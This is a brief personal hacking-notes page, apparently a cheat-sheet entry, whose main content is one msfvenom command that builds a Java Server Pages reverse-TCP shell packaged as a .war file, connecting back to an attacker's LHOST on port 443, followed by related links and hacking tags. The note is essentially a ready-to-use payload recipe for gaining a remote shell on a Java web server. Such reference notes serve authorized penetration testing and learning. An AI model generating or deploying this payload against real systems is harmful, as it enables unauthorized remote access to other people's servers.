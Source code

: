 # MSFVENOM Java Server Pages (.jsp) As .war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f war -o shell.war
```

# Related

- [20221003150760](/zet/20221003150760/README.md) MSFVENOM Java Server Pages (.jsp)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:

    #command #hacking #msfvenom 
